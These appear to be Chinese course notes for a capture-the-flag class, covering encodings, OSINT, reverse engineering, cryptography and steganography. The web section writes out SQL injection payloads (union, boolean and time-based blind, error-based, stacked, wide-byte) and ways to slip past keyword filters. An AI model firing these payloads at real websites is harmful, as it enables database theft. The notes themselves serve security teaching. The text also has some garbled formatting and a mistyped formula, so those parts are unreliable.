- 最终长度必须是4的倍数，不足的用=补齐（1~2个，明显特征）

Base-n系列编码的本质：字节流 \(\rightarrow\) 整数 \(\rightarrow\) n进制 \(\rightarrow\) 系数查表
除了16/32/64进制外，还有一些其他的Base编码：
- Base85：4字节整数 \(\rightarrow\) 85进制 \(\rightarrow\) 5个系数
- 常用字符表：0-9 A-Z a-z ! # $ % & ( ) * + - ; < = > ? @ ^ _ ` { | } ~
- 标准字符表： !-u（ASCII 0x21-0x75）
- 作为大整数转换进制：
- Base62：0-9 A-Z a-z（比Base64少了+ /）
- Base58：0-9 A-Z a-z（比Base62少了不易区分的0 O I l）
- Base56：比Base58少了1和o
- Base36：0-9 A-Z（比Base62少了a-z）
一些其他编码¶
其他常用编码
- UUencode、XXencode：二进制文件编码为可见字符
- QR Code 二维码
- 条形码
- 盲文编码
常用工具
- CyberChef：https://gchq.github.io/CyberChef/
- Base系列爆破：https://github.com/mufeedvh/basecrack/
- DenCode：https://dencode.com/
- Ciphey：https://github.com/Ciphey/Ciphey
OSINT基础¶
什么是OSINT¶
Open Source INTelligence：开源网络情报
- 通过完全公开的信息进行合理的推理，获取情报
一般在misc题目中出现即反之信息搜集，有几种情况：
- 构造了一个全新的虚拟身份，搜集得到出题人准备好的信息
- 根据图片、文档等附件泄漏的信息进行推理（主要）
- 包括根据图片内容推理找到拍摄位置、当时环境等信息
信息搜集/查询基础¶
数字信息搜集工具：https://github.com/ffffffff0x/Digital-Privacy
用户名批量查询：
- sherlock：https://github.com/sherlock-project/sherlock
- namechk：https://namechk.com/
Wayback Machine ：web.archive.org
- 查找网页的历史快照（以及可以创建快照）
- 有时可以找到出题人特意保存快照后删除的内容
文件信息泄露¶
各种文档的元信息（metadata）可能包含作者、修改时间等信息
- 图片的EXIF信息，可通过exiftool查看
- 一般以xml形式存储，可以直接通过二进制抹除，或者通过操作系统
工程文件夹泄漏信息
- Visual Studio的各种配置文件.vs文件夹中信息
- .vscode 文件夹中的配置文件
- .git 文件夹，泄漏全部修改历史、提交信息、提交者等
文件夹路径信息泄漏
- .DS_Store 文件，macOS 下的文件夹布局信息
- 以上提到的各种工程配置文件等也会泄漏（比如vs的pdb调试信息）
- markdown 文件图片路径（本地路径/图床用户/自建图床网站）
照片信息分析¶
图片搜索¶
常用搜索引擎：
- 百度识图搜索：中文互联网图片搜索结果
- Google 图片搜索：用来搜索外国范围的图片
- Bing 图片搜索：和Google差不多，都可以参考
- Yandex 图片搜索：
- 搜索相似图片
- 搜索风景时更常用
- TinEye：搜索完全相同的图片（找来源）
地点线索搜集¶
注意图片中的文字、牌匾、标志性建筑等，可用来作为关键词搜索
- 利用搜索引擎等找到大概位置后，可以用百度全景地图/谷歌全景地图进行确认/查找附近线索
如果图片中关键信息较少，可以优先考虑使用搜索引擎识图（Google识图等）
- 搜索确认得到相关的地名/地点信息后，可以进一步搜索相关信息
环境信息分析¶
- 几何学透视简单分析照片拍摄者高度
- 太阳角度、阴影长度等太阳相关信息
- 时间 \(\iff\) 位置相互估计
- suncalc.org
- sunearthtools.com
- 天气信息、云层信息等
- 飞机航班信息
- 估计方向、位置、时间等
- flightradar24.com
- flightaware.com
- adsbexchange.com
- 风景信息 \(\rightarrow\) Yandex 图片搜索
Lec4-Reverse¶
约 1281 个字 34 行代码 9 张图片 预计阅读时间 6 分钟
授课：马麟
程序？可执行文件¶
为什么计算机可以执行给定的程序呢
因为任何程序都将最终转化为「指令」的形式由计算机执行

前端与后端（Compile frontend & backend）¶

Compiled V.S. Interpreted¶
-
编译执行
上述通过编译器 (compiler) 将代码转化为机器指令格式的程序，进而执行
-
解释执行
通过解释器 (interpreter) 将代码转化为 VM 格式的程序（如字节码），进而在 VM 上执行


用户态可执行文件¶
- Windows：PE/PE32+（Port Executable）
- macOS：Mach-O（Mach Object）
- Linux：ELF（Executable and Linkable Format）
可通过命令行工具静态检视 ELF 文件
ELF (Executable and Linkable Format) is a common standard file format for "executables" in Linux (or Unix-like) systems
file：查看文件类型readelf：查看 ELF 文件的结构objdump：反汇编
ELF 的编译、链接¶
- 编译（汇编）：从源代码到目标文件
- 链接：从目标文件到可执行文件
ELF的编译、链接¶
以简单的hello.c为例
ELF的编译 (预处理)¶
- 头文件包含
- 宏展开与替换
ELF的编译 (编译)¶
- -S: Compile only; do not assemble or link
- -Ox: 优化等级
- -g: 启用调试
- ......
ELF的编译 (编译前端)¶
- 生成 clang AST
- 生成 LLVM IR
- 生成 gcc IR（以及其他细节）
ELF的编译 (编译后端)¶
- 从 LLVM IR 到汇编代码
- 从汇编代码到目标文件 (object file)
- 一步到位
- 从汇编代码到目标文件 (object file) GCC 版本

ELF的链接¶
- 目标文件
hello.o中有多个段 - 目标文件
hello.o还不足以包含程序运行的信息，需要进行链接 - 符号解析与重定位
- "essentially merging"

静态链接与动态链接¶

-
静态链接
将所有的目标文件都链接到一个可执行（ELF）文件中
- 优点：可执行文件独立，不依赖于其他文件，在各种环境中都可执行
- 缺点：通常会使可执行文件大小增加
-
动态链接
所有的目标文件都链接到一个储存在系统中的动态链接库（Dylib/So）中，无需单独储存
- 优点：节省磁盘空间，减少内存占用
-
缺点：依赖于系统中的动态链接库，动态链接库的版本等不同可能会导致兼容性问题；
动态链接的过程中会有额外开销，可能会影响程序的性能，但有一些优化策略
动态链接的PLT与GOT¶
-
PLT: Procedure Linkage Table
动态链接的“跳板”
-
GOT: Global Offset Table
- lazy binding optimization（延迟绑定优化）以及 full-relro 保护
ELF 程序的装载和运行¶
程序到进程¶
- 可执行程序 (Program) 是静态，文件的概念
- 进程 (Process) 是动态、系统运行时的概念
- 进程和线程 (Thread)
ELF程序的生命周期¶
- C/C++程序对应进程的起点并不是main
- 同样地，C/C++程序对应进程的终点也不是main
Example
运行结果如下：
-
静态链接程序：
内核以可执行文件 e_entry 位置 (即_start) 作为起点
-
动态链接程序：
内核以 interpreter 文件的 e_entry 位置作为起点
-
等了解交互/调试之后进行 revisit
_start¶
- glibc 代码 (汇编构筑)
- 携带
main符号跳转__libc_start_main函数
__libc_start_main¶
- 完成各类和目标 ELF 有关的初始化
- 内联
__libc_start_call_main - 最终跳往
main符号 main结束后调用exit
基地址与 ASLR¶
- PIE 动态链接可执行程序基地址随机保护
- 无论静态/动态 (是否 PIE)，栈地址随即化保护
- 通过 /proc/sys/kernel/randomize_va_space 控制随机化
ELF 程序的交互、调试¶
通过命令行人工与程序交互¶
- 绝对路径 / 相对路径
- -h / --help
- manual
- PATH 路径
- 通过虚拟机或者沙箱进行交互
通过编程与程序交互¶
- 重定向构建特殊字符作为输入
- C 管道编程
- python subprocess 库
- python pwntools 库
GDB: GNU DeBugger¶
- 调试模式
- 调试器执行模式
- attach 模式
- remote 模式
- 常用调试功能
- 执行断点
- 硬件断点
- 查看寄存器 / 内存
- set 修改寄存器 / 内存
- gdb 插件
ELF程序的逆向¶

ELF的静态逆向¶
- 反汇编：机器指令 \(\rightarrow\) 汇编指令（查表、准确）
- objdump
- 反编译：汇编指令 => 编程语言（分析/特征匹配/启发式 … 、往往不准确）
- IDA Pro (https://hex-rays.com/ida-pro/)
- Binary Ninja (https://binary.ninja)
- with free version
- Ghidra (https://github.com/NationalSecurityAgency/ghidra)
- Cutter / radare (https://github.com/rizinorg/cutter )
- 大语言模型 ;D (https://mlm.lingyiwanwu.com/)
静态逆向技巧¶
对于静态链接目标
- 特征 + 猜测尽可能恢复库函数符号
对于符号恢复的静态 or 动态链接目标
- 关注特定常量和字符串
- 关注输入和输出函数
- 关注分支、比较指令
- 关注可能涉及加密解密的特殊运算（位运算、异或、取余）
ELF的动态逆向¶
「可运行」和「可调试」是高效解决逆向问题的必备
- 许多逆向赛题都需要「纯静态」的方式解决，程序可能依赖特定的架构/设备
- “if it can run, it can be cracked”
- 通过运行时的结果解决静态逆向时的疑惑
Lec5-Pwn¶
约 227 个字 预计阅读时间 1 分钟
授课：马麟
写在前面的话：由于这堂课上大部分内容都是基于具体题目来讲解的，实际上的知识点并没有多少，所以这里的内容会比较简略。
PWN 引言¶
- PWN = Find the Bugs + Exploit them
Bug Definition
- A Software Bug is a failure or flaw in a program that produces undesired or incorrect results. It’s an error that prevents the application from functioning as it should.
CTF PWN Bugs¶
graph LR;
A[**C/C++ language**
memory corruption bugs]
B[**Clear exploitation aim**
code execution]
C[**Naive program**
usually terminal program]
D(**other complex language**
logic bugs)
E(**other complex target**
httpd, kernel, browser...)
A--->D
B
C--->E
pwn 赛题结构
-
赛题文件
-
往往需要逆向
-
漏洞描述 (diff)
-
赛题环境
- libc and ld
- Dockerfile
- "good challenge should issue everything you needed to run and test it"
-
赛题远程
代码注入 (Code Injection)¶
"An attacker introduces (or "injects") code into the program and changes the course of its execution. "
- 原始 + 直接的漏洞与攻击
- “相对容易”检测 - 特征函数
- “相对容易”防御 - 白名单/黑名单
命令注入
- 直接
shellcode 注入
- 间接
- 搭配控制流劫持的利用方式
stack overflow 能力¶
graph LR;
A[溢出破坏局部变量]
B[溢出破坏存储的栈帧指针]
C[溢出破坏存储的返回地址]
D[破坏数据流]
E[栈迁移]
F[控制流劫持]
A--->D
B--->E
C--->F
Lec6-Crypto¶
约 1410 个字 2 张图片 预计阅读时间 6 分钟
授课：
密码学基础¶
密码学是研究编制密码和破译密码的技术科学
- 设计加解密算法
- 破解加解密算法
密码学介绍¶
为何需要密码学¶
- 存储：信息的存储可能是不安全的，会被窃取
- 传输：信息的传输过程可能也不是隐秘的，会被窃听
不能直接使用明文进行存储和传输！
Crypto in CTF¶
出题人给定一个有一定缺陷的加密算法，需要选手攻破该加密算法，得到解密后的文字，或者伪造加密信息
比赛中题目虽然常常会涉及许多较新的论文研究结果，但是仍与目前隐私计算等前沿密码学安全研究有一定距离
Crypto学习资源推荐¶
- CTF Wiki
- 4老师倾情推荐的密码学做题网站：CryptoHack
- 密码学入门书籍：An introduction to mathematical cryptography
基本术语¶
- 消息被称为明文（Plaintext）。用某种方法伪装消息以隐藏它的内容的过程称为加密 （Encryption），被加密的消息称为密文（Ciphertext），把密文恢复为明文的过程称为密（Decryption）。
- 密码算法（Cryptography Algorithm）：是用于加密和解密的数学函数。
- 密钥（Key）：加密或解密所需要的除密码算法之外的关键信息。
- 对称加密（Symmetric Cryptography）
- 特点：在加密和解密时使用同一密钥
- 例子：流密码（RC4），块密码（AES，DES）
- 非对称加密（Asymmetric Cryptography）
- 特点：在加密和解密时使用不同密钥，加密使用公钥，解密使用私钥
- 例子：RSA，ElGamal，ECC
- 哈希函数（Hash Function）
- 特点：把输入内容单向映射到一个短的摘要上
- 应用：下载文件完整性校验
- 例子：CRC，MD5，SHA系列
- 数字签名（Digital Signature）
- 应用：对消息进行签名（也是一个短的消息），以防消息的冒名伪造或篡改

数学基础¶
OI Wiki 数论部分¶
整除：$ a \mid b $¶
- \(\forall a \in \mathbb{Z}~, 1 \mid a\) ；若 \(a \neq 0\)，则 \(a \mid 0\) 且 \(a \mid a\)
- 若 \(a \mid b\) 且 \(b \mid c\)，则 \(a \mid c\)
- 若 \(a \mid b\) 且 \(a \mid c\)，则 \(a \mid (sb + tc)\)，其中 \(s, t \in \mathbb{Z}\)
最大公因数（Greatest Common Divisor, GCD）：$ \gcd(a, b) $¶
- \(\gcd(a, b) = \gcd(b, a)\)
- \(\gcd(a, b) = \gcd(a, b - a)\)
- \(\gcd(a, b) = \gcd(a, b \mod a)\)
特别的，当 \(a\)、\(b\)互素，即 $ \gcd(a, b) = 1 $时，一定存在整数 \(x, y\) 使得 \(ax + by = 1\)
算数基本定理¶
任何一个大于 \(1\) 的自然数 \(n\) 都可以唯一地分解为若干个素数的乘积 $$ n = p_1^{a_1} \times p_2^{a_2} \cdots \times p_k^{a_k} $$ 其中 \(p_1, p_2, \cdots, p_k\) 是素数，\(a_1, a_2, \cdots, a_k\) 是正整数
同余¶
\(a,b\)对于模\(n\)同余：\(a \equiv b \pmod{n}\)
设 \(a, b, c, d, n\)均为整数，且 \(n \neq 0\)，则有：
- $ n \mid a \Leftrightarrow a \equiv b \pmod{n} $
- $ a \equiv a \pmod{n} $
- 若 \(a \equiv b \pmod{n}\)，\(c \equiv d \pmod{n}\)，则 \(a \pm c \equiv b \pm d \pmod{n}\)，\(ac \equiv bd \pmod{n}\)
- 若 \(a \equiv b \pmod{n}\)，则 \(a^k \equiv b^k \pmod{n}\)
- 若 \(a \equiv b \pmod{n}\)，\(c \equiv d \pmod{n}\)，则 \(a^c \equiv b^d \pmod{n}\)
- 若 \(a + b \equiv 0 \pmod{n}\)，则称 \(a\) 与 \(b\) 互为加法模 \(n\) 逆元
- 若 \(ab \equiv 1 \pmod{n}\)，则称 \(a\) 与 \(b\) 互为乘法模 \(n\) 逆元。\(a\) 的乘法模 \(n\) 逆元记为 \(a^{-1}\) ，\(a\) 有乘法模 \(n\) 逆元当且仅当 \(\gcd(a, n) = 1\)
中国剩余定理¶
若 \(m_1, m_2, \cdots, m_k\) 是两两互质的正整数，则对于任意的整数 \(a_1, a_2, \cdots, a_k\)，同余方程组 \[ \begin{cases} x \equiv a_1 \pmod{m_1} \\ x \equiv a_2 \pmod{m_2} \\ \cdots \\ x \equiv a_k \pmod{m_k} \end{cases} \] 对模 \(m = m_{1}m_{1} \cdots m_{1}\) 有唯一解 \(x\)。
设 \(M_i = \frac{m}{m_i}\)，则 \(M_i\) 与 \(m_i\) 互质，存在整数 \(N_i\) 使得 \(M_iN_i \equiv 1 \pmod{m_i}\)（\(N_i\) 为 \(M_i\) 的模 \(m_i\) 乘法逆元），则 $$ x = \sum_{i=1}^{k} a_iM_iN_i $$
欧拉函数¶
对于正整数 \(n\)，欧拉函数 \(\varphi(n)\) 定义为小于等于 \(n\) 的正整数中与 \(n\) 互质的数的个数
- 若 \(n = p_1^{a_1} \times p_2^{a_2} \cdots \times p_k^{a_k}\)，则 \(\varphi(n) = n \times (1 - \frac{1}{p_1}) \times (1 - \frac{1}{p_2}) \cdots (1 - \frac{1}{p_k})\)
- 若 \(n = p^a\)，则 \(\varphi(n) = p^a - p^{a-1} = p^{a-1}(p-1)\)
- 若 \(n = p \times q\)，且 \(p, q\) 互质，则 \(\varphi(n) = \varphi(p) \times \varphi(q)\)
- 若 \(n = p \times q\)，且 \(p, q\) 为不同的质数，则 \(\varphi(n) = (p-1)(q-1) = \varphi(p) \times \varphi(q)\)
欧拉定理¶
若 \(a, n\) 互质，则 \(a^{\varphi(n)} \equiv 1 \pmod{n}\)
费马小定理（欧拉定理的特例）：当 \(n\) 为质数时，\(\varphi(n) = n - 1\)，即 \(a^{n-1} \equiv 1 \pmod{n}\)
RSA算法¶
- 选择两个大质数 \(p, q\)，计算 \(n = p \times q\)，\(\varphi(n) = (p-1)(q-1)\)
- 选择 \(e\)，使得 \(1 < e < \varphi(n)\)，且 \(\gcd(e, \varphi(n)) = 1\)
- 计算 \(d\)，使得 \(d \equiv e^{-1} \pmod{\varphi(n)}\) ，即 \(d \times e \equiv 1 \pmod{\varphi(n)}\)
- 于是得到公钥为 \((e, n)\)，私钥为 \((d, n)\)， 设明文为 \(m\)，密文为 \(c\)，若消息太长，可将消息分段加密
- 加密：\(c = m^e \mod n\)
- 解密：\(m = c^d \mod n\)
古典密码¶
- 代换（substitution）密码——用新的替换原先的内容
- 置换（permutation）密码——打乱原先的顺序
- Hill密码
凯撒密码¶
又称加法密码，是一种最简单的替换密码，是一种使用恒定偏移量的替换密码，将字母表中的每个字母循环移动固定位数得到密文
- 加密：\(y = \text{encode}(x) = (x + key) \mod 26\)
- 解密：\(x = \text{decode}(y) = (y - key) \mod 26\)
- 破解：暴力枚举观察结果（常见编码ROT13，取\(key = 13\)）
一般的凯撒加密只作用于26个字母，但也可拓展到ASCII码表上（常见编码ROT47，将33~126作为字母表，取\(key = 47\)）
仿射密码¶
仿射密码是一种线性替换密码，类似于凯撒加密，但不止进行加法
- 加密 \(y = \text{encoude}(x) = (x \times key_1 + key_2) \mod 26\)
- 解密 \(x = \text{decode}(y) = (y - key_2) \times key_1^{-1} \mod 26\)
- 破解：单表密码加密前后的字符是一一对应的，不会破坏统计规律，根据英文文本中字母出现的频率以及一些常见单词即可轻松破解(如
the,and,youa等)
维吉尼亚密码¶
一种多表加密的替换密码，密钥任意长，并且以循环使用，第 \(i\) 个字符用第 \(i\) 个密钥进行偏移
- 加密：\(y_i = \text{encode}(x_i) = (x_i + key_i) \mod 26\)
- 解密：\(x_i = \text{decode}(y_i) = (y_i - key_i) \mod 26\)

例：明文CRANE，密钥TONY
- (C, T) \(\rightarrow\) V
- (R, O) \(\rightarrow\) F
- (A, N) \(\rightarrow\) N
- (N, Y) \(\rightarrow\) L
- (E, T) \(\rightarrow\) X
破解：确定密钥长度 \(\rightarrow\) 分组爆破加法密码 \(\rightarrow\) 得到密钥
置换密码¶
加密变换使得信息元素只有位置变化而内容不变，比如对于一种置换密码，其置换表为
| X | 1 | 2 | 3 | 4 | 5 | 6 |
|---|---|---|---|---|---|---|
| E(X) | 3 | 5 | 1 | 6 | 4 | 2 |
对于明文\(\texttt{crypto basic}\)，先进行分组（不足需填充）：\(\texttt{[crypto]}\)和\(\texttt{[ basic]}\)，然后对每一组进行置换： 对每一组进行置换： \(\texttt{[crypto]} \rightarrow \texttt{[yoctrp]}\) \(\texttt{[ basic]} \rightarrow \texttt{[ac ibs]}\) 最终密文就是\(\texttt{yoctrpac ibs}\)
栅栏密码¶
栅栏密码也是一种置换密码，其将明文分割成k行，然后重新拼接，这里k即为加密的密钥
对于明文\(\texttt{crypto basic}\),取 \(k=3\) ，将明文分割成三行
c |
p |
s |
|
|---|---|---|---|
| r | t | b | i |
| y | o | a | c |
因此得到的密文为\(\texttt{cp srtbiyoac}\)
Hill密码¶
希尔密码是运用基本线性代数原理实现的替换密码
每个字母当作26进制数字，将一串字母当成 \(n\) 维向量，与一个 \(n \times n\) 的矩阵相乘，再将得出的结果 mod 26，其中这个 \(n \times n\) 矩阵就是密钥
比如明文 \(\texttt{IT}\) ，转换成26进制为$P = \begin{bmatrix} 9 & 20 \end{bmatrix} $，加密密钥 $ K = \begin{bmatrix} 11 & 8 \\ 3 & 7 \end{bmatrix} $
密文即为$ C = P \times K = \begin{bmatrix} 159 & 212 \end{bmatrix}\mod 26 = \begin{bmatrix} 3 & 4 \end{bmatrix} $，转回字母即 $\texttt{CD} $ 解密只需要计算 \(K\) 的逆矩阵即可，$ P = C \times K^{-1} = \begin{bmatrix} 3 & 4 \end{bmatrix} \times \begin{bmatrix} 7 & 18 \\ 23 & 11 \end{bmatrix} = \begin{bmatrix} 9 & 20 \end{bmatrix} $，再转回字母即 $\texttt{IT} $
Ended: 基础周
专题周 ↵
Web ↵
Web-1 注入¶
约 2085 个字 65 行代码 3 张图片 预计阅读时间 9 分钟
授课：褚翰泽（OverJerry）
SQL基础¶
-
SELECT语句的结构
Examples:
-
关于注释
-
一些SELECT的其他例子
-
一些常用的URL编码：
- Space: %20
- #: %23
- ': %27
- ": %22
- +: %2B
- # + $ - _ . ! * ( ) 浏览器地址栏默认不编码，但是不意味着不能编码
SQL注入¶
直接回显的SQL注入¶
网站架构分析¶

SQL注入的判断¶
根据网站功能，猜测可能的SQL语句
存在注入->SQL语句可以以一种“意料之外”的方式被解析
而最简单的“意料之外”就是把他搞坏
-
传入全部各种特殊字符 '"~!@#$%^&*()`
-
不管内部结构怎么样，这样肯定能出错，检测效率高
判断到底是数字型还是字符型
-
传入id=2-1
- 如果是数字型，语句应该变为：
等价于：那么就应该能正常返回id=1的页面- 而如果是字符型，语句应该变为：
会查询不到内容
此刻，我们已经收集到的信息有:
- 内部SQL语句的结构
- 服务端的基本响应逻辑
那么，怎么继续获取信息呢？
- 借助联合查询:
- 我们可以尝试传入
id=1 UNION SELECT {secret_data}从而使拼接的SQL语句变为：
- 这样，联合查询就会覆盖SQL查询的结果，并借助PHP代码实现的HTML嵌入，将我们想要的信息嵌在页面里传回来！
由于联合查询前后的列数必须一致，我们也要判断原SQL查询的列数
- 我们可以尝试构造
- \(M \leq N\)时，能有正常的返回，\(M > N\)时会报错，从而可以判断查询的列数
- 当然，也可以一个个试
数据获取¶
现在我们以及可以利用MySQL函数直接获取一些信息了
但是，由于我们不知道表名、列名，我们无法获取更多的数据
幸运的是，MySQL 的默认库information_schema中存放了这些信息。当然，这个技巧只能在 MySQL 中使用
-
在MySQL中，所有的数据库名存放在
information_schema.schemata的schema_name字段下 -
所有的表名存放在
information_schema.tables的table_name字段下，可以以table_schema为条件筛选 -
所有的列名存放在
information_schema.columns的column_name字段下，可以以table_schema和table_name为条件筛选
可以构造
获取所有数据库信息，以此类推
如果想要分行获取，也可以借助LIMIT
无回显的SQL注入¶

判断注入点¶
根据网站功能，可能的SQL语句仍然是SELECT，而且只能是字符型
验证猜想
-
传入
uname=' -
而uname="时
说明是单引号闭合
一些SQL注入方法¶
传入uname=a' or {condition}# 可以让语句变为
这样，当且仅当statement为真时，username='a' or {condition}才可能为真，返回User Found，否则必为Not Found(因为不存在username='a'的数据)。既，我们可以获取{condition}的结果！
用and语句构造也是同理
SUBSTR(str, pos, len) 可截取字符串
str参数代表待截取的字符串pos参数代表从什么位置开始截取(下标从1开始)len参数表示字符串截取的⻓度
ASCII(char)将字符转为ASCII码
那么，我们用SUBSTR()一位位取出要查找内容的字符，再用ASCII()转化为ASCII码，就能用二分法获取数据了
例子

利用延时
IF(condition, expr1, expr2)
如果condition为真就执行expr1，反之执行expr2
和SLEEP()配合，就能通过测量响应时间来获取数据！
例子
特殊的SQL注入¶
是否有可能注入INSERT, UPDATE, DELETE语句？¶
假设某用户注册场景，username/email/password分别用POST参数uname&email&passwd传入
在不知道SQL语句结构的情况下，最保险的方案是时间盲注，只需简单闭合即可
传入uname='='' AND IF({condition}, SLEEP(0), SLEEP(5)) AND ''='&email=a&passwd=b
语句变为
如果已经知道INSERT语句的结构，我们可以直接篡改后续的插入内容
传入uname=', DATABASE(), '')#&email=a&passwd=b
语句变为
注册用户的email栏会直接展示数据库名
一个仅限MySQL的技巧¶
传入uname=0'|CONV(HEX(SUBSTR(USER(),1, 8)),16, 10)|'0&email=a&passwd=b
将结果转换回字符即可UNHEX(CONV(res, 10, 16))
UPDATE语句也是同理。DELETE一般没有回显的渠道所以还是只能用延时注入。
报错注入(MySQL环境下)¶
核心思想就是让我们要查询的信息输出到报错信息中去
EXTRACTVALUE(xml_document,Xpath_string)
使⽤Xpath格式的字符串从xml_document中获得内容，Xpath格式(一般为/a/b/…)错误就会报错，报错信息中会输出Xpath_string
那么我们可以刻意构造错误的Xpath_string和我们想要查询的数据拼接
比如，只要查询中执行了 EXTRACTVALUE(1,CONCAT(0x7e,DATABASE(),0x7e)) 就必定报错(0x7e是~的编码)，DATABASE()会作为Xpath的一部分出现在报错信息中
这个技巧可以用在任何回显报错信息的场景中。同理还有很多其他的MySQL可用的报错注入函数。
堆叠注入¶
很多数据库是支持多个SQL指令在一行内执行的。不过，服务端语言可能不会获取多行结果。
比如PHP常用的mysqli->query()方法只会执行一条指令。要执行多条必须用mysqli_multi_query()方法，使用场景比较少见。
不过，一旦发现了一个堆叠注入就约等于发现了一个RCE，危害极大。
常见的闭合判断方法：;select sleep(1);#
如果有延时说明后续指令被执行了。
二次注入¶
对数据进行转义是为了防止SQL语句执行时出现问题，存储的原始数据并没有转义。
那么，如果某个数据被存入时携带了恶意的SQL语句，由于存入操作进行了良好的转义没有造成注入，但是服务端的其他功能读取这串数据用于拼接SQL语句时没有转义，可能也会造成注入。
SQL注入原理总结¶
- SQL注入产生在服务端运行的编程语言和SQL服务器的边界上
- SQL注入的本质是构造一条产生有效信息输送的信息链！
SQL注入的绕过¶
常见防护方法：
- 直接拦截
- 关键字替换
- 编码转义
- 参数化查询
检测方式：
- 关键字匹配(直接查找/正则)
- 语义匹配
基本思路：针对关键字/正则匹配
- 大小写
- 利用等价命令 比如 OR->||, SPACE->/**/, ORDER BY->GROUP BY …
- 如果只是单纯删去关键字，且只删一次，可以嵌套绕过，比如
UNION是关键字会被删除，那么传入UNUNIONION就会被删成UNION，从而注入
针对语义匹配
- 相对难度较大，只能利用语言特性把语义检测绕晕。常见办法是嵌套注释符让其以为全部内容都被注释了。
奇技淫巧：
- 超长字符串绕过
- 多次编码(需要服务端有相应解码功能)
- %00截断/换行截断
- 改变请求方式
GET->POST,?a=1->/a/1
对于直接编码转义或是参数化查询基本无能为力的，无法逃逸=无法注入。
不过，如果数据库使用的是GBK编码，而服务端只采用addslashes()方法进行转义，可能造成逃逸。比如addslashes("%df'")="%df\'" 传给SQL服务器时十六进制编码为 df 5c 27
而在GBK编码下，df 5c是汉字運的编码，最后这段字符会被数据库理解为運'，导致转义失效，单引号逃逸。这种技巧被称为宽字节注入。
一些其他注入漏洞的例子¶
-
XXE: XML external entity attack
比如这段XML发送给某个API后，服务器会解析XML的内容，并返回一个HTML页面。
-
SSRF: Server-side request forgery
诱导服务端对非预期的地址作网络请求，从而获取部分内网信息
总结¶
Web漏洞挖掘的关键：
- 全面的信息收集
- 完整的功能分析
- 清晰的利用逻辑
- 丰富的知识储备
- 更重要的是耐心！
Ended: Web
Misc ↵
Misc专题一： 文件/图像隐写¶
约 2579 个字 2 张图片 预计阅读时间 10 分钟
文件系统基础¶
文件如何存储¶
不同的文件系统，不同的组织方式
- MS 派：FAT、NTFS、exFAT、ReFS
- Apple 派：HFS、APFS
- Linux 派：ext[234]、XFS、Btrfs、ZFS...
文件是一串二进制数据
- 在 HDD 上是微小磁极的磁化方向
- 在 SSD 上是电荷的存储状态
“文件名”是由文件系统管理的，不是文件本身数据的一部分
- 文件系统会记录文件名、文件大小、创建时间、修改时间等信息
- 文件内容才是真正的数据
文件和文件类型¶
扩展名
- .jpg .webp .txt .docx ...
- 是文件名的一部分，可以随意修改
- （在一些桌面环境下）决定了打开文件的默认程序
内容
- 通过文件内容来识别文件类型（√）
- file 命令：根据文件内容判断文件类型
- 不同文件类型有不同的“魔数”(magic number)
二进制查看文件与分析¶
010 Editor
- 全平台最常用的二进制编辑器，付费软件（但容易破解）
- 有丰富的 binary templates，支持解析多种文件格式
wader/fq
- Go 编写的开源二进制文件查看工具
- 支持类似 jq 语法的查询
Hex Fiend
- macOS 上免费开源高效的二进制编辑器
- 也有多种二进制格式的解析模板，但显示没有 010 丰富
ImHex
- 全平台开源二进制编辑器
- 类似 010 Editor，但使用麻烦一些
- 可以编写自定义解析模板
文件类型检测与元信息¶
常见文件的 magic number：
| 文件类型 | 文件头 | 对应ASCII |
|---|---|---|
| JPEG | FF D8 FF | ... |
| PNG | 89 50 4E 47 0D 0A 1A 0A | .PNG.... |
| GIF | 47 49 46 38 39 61 | GIF89a |
| 25 50 44 46 | ||
| ZIP | 50 4B 03 04 | PK.. |
| RAR | 52 61 72 21 | Rar! |
| 7zip | 37 7A BC AF 27 1C | 7z..'. |
| WAV | 52 49 46 46 | RIFF |
- 通过 file 命令进行文件类型的检测
- 可以使用 exiftool 读取部分类型文件的元信息
文件附加内容的识别与分离¶
大部分文件类型都有一个标记文件内容结束的标志
- 比如 PNG 的 IEND 块、JPEG 的 EOI 标志（FF D9）
所以一般在文件末尾添加其他字节时，不会影响原文件本身的用途
- 因此有些隐写是将数据隐藏在文件末尾达到的
- 或者在文件后叠加另一份文件
- cat cover.jpg secret.zip > cover_stego.jpg
附加内容的识别
- exiftool 一般可以识别图像文件后的附加数据
- binwalk 可以检测叠加的文件
附加文件的分离
- binwalk 或 foremost 识别并分离
- dd if=
of= bs=1 skip= 手动分离
图像隐写基础技术¶
文件内容基本隐写¶
文件末尾添加数据
- exiftool 识别短数据，或者十六进制编辑器直接观察
- binwalk 识别叠加文件，foremost 提取
- 图像末尾叠加一个压缩包，就是所谓的“图种”
- 修改后缀名可能可以解压（部分解压软件会忽略前面的图像）
- 其实不如直接分离
直接利用元信息
- exiftool 即可读取
色彩空间、色彩模式¶
色彩空间（sRGB、Adobe RGB、Display P3 等）是一个相对非常复杂的概念，而且是针对显示的，我们不详细介绍
我们注重于表示颜色的数据上，一般称为色彩模式（color mode）：
- 二值图像（bitonal）：每个像素只有两种颜色，如黑白
- 灰度图像（grayscale）：每个像素有多种灰度，如 256 级灰度
- RGB(A)：3(+1) 通道，表示 RGB 三种颜色，A 表示透明度通道
- CMYK：青 cyan、品红 magenta、黄 yellow、黑 black 四种颜色混合
- HSV：色调 hue、饱和度 saturation、明度 value
- HSL：色调 hue、饱和度 saturation、亮度 lightness
- YCbCr：亮度 luminance、蓝色色度 blue chroma、红色色度 red chroma
- LAB：亮度 lightness、绿红色度 A、蓝黄色度 B
LSB隐写¶
人眼对于微小的颜色变化不敏感
- 对于 8 bit 的颜色值，最低位的变化不会被察觉
- 可以随意修改最低位，而不影响图像的显示效果
LSB 隐写将颜色通道的最低位用来编码信息
- 图像：stegsolve / CyberChef View Bit Plane
- 数据：stegsolve / CyberChef Extract LSB / zsteg / PIL
PIL 图像处理基础¶
PIL（Python Imaging Library）是 Python 中非常常用的图像处理库
安装：pip3 install pillow 或 apt install python3-pil 官方文档 / 教程：https://pillow.readthedocs.io/en/stable/
- 除此之外想要灵活使用可能还需要一点 numpy 的基础
基本用法
- from PIL import Image 导入和图像读写处理有关的 Image 类
- img = Image.open(file_name) 打开图像
- img.show() 显示图像；img.save(file_name) 保存图像
